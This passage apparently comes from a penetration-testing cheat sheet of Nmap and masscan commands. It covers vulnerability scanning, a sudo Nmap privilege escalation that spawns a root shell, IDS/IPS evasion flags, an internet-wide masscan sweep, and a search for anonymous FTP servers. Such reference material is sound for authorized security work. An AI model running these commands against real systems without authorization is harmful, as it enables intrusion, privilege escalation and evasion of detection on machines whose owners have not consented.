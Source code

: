 Download: <https://github.com/scipag/vulscan>

Usage:

```sh
nmap -sV --script=vulscan/vulscan.nse www.rosesecurity.com
```

## Nmap Privilege Escalation

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```

## Nmap Using Multiple Scripts on One Target

Usage:

```sh
nmap --script "http-*" <IP>
nmap --script "sql-*" <IP>
nmap --script "ftp-*" <IP>
```

## IDS/IPS Nmap Evasion

Low and slow (-T2), Fast mode (-F), Append random data to sent packets (--data-length), Randomize hosts, and verbosely conduct service detection on a file of hosts and output to XML.

```sh
nmap -T2 -F --data-length 5 --randomize-hosts -sV -v -iL (targets.txt) -oX (output.xml)
```

## Scanning Large Networks and Avoiding Sensitive IP Ranges

Set ```exclude.txt``` equal to the contents of <https://pastebin.com/53DP2HNV>

```sh
masscan 0.0.0.0/0 -p0-65535 –excludedfile exclude.txt
```

## Finding Open FTP Servers

Finding FTP servers that allow anonymous logons can assist in numerous red-teaming activities such as Nmap FTP bounce scans.

```sh
masscan -p 21 <IP Range> -oL ftp_servers.txt; nmap -iL ftp_servers.txt —script ftp-anon -oL open_ftp_servers.txt
```
